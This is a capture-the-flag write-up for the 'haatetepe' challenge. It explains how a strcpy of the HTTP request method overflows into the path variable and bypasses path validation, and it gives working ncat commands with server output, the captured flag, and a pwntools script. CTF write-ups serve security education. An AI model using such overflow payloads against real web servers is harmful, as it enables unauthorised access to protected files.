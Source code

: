 # haatetepe

## Vulnerability

The use of insecure `strcpy` to set request method based on user input. This can overflow the next variable on the stack, which is `path`. The the program only checks if the input request method starts with either GET, HEAD or POST, and not that the entire string matches.  

## Exploit

A stack overflow in request method allows us to set the request path to the illegal path `/flag`, _after_ path validation

``` sh
echo "GET / HTTP/1.1" | ncat --ssl 26b908f8-e830-43cb-83c6-e0d25f09273d.chall.nnsc.tf 41337
< HTTP/1.1 200 OK
< Content-Length: 32
< Content-Type: text/plain
< 
< Welcome to haatetepe, not nginx!

echo "GETaaaaaaaaaaaaa/flag / HTTP/1.1" | ncat --ssl 26b908f8-e830-43cb-83c6-e0d25f09273d.chall.nnsc.tf 41337
< HTTP/1.1 200 OK
< Content-Length: 151
< Content-Type: text/plain
< 
< Well of course you can have the flag! All you have to do is ask.
< Flag: NNS{wh4t_d0_y0u_m34n_my_53rv3r_15n7_s3cur3?_4nd_n0_1_w0n7_u53_Rust_58b83a159f28}          
```

or equivalent in Python:

```py
from pwn import remote

with remote("localhost", 8000) as io:
    io.send(b"GET" + b"a" * 13 + b"/flag / HTTP/1.1\r\n\r\n")
    print(io.clean(1).decode("utf-8"))
```
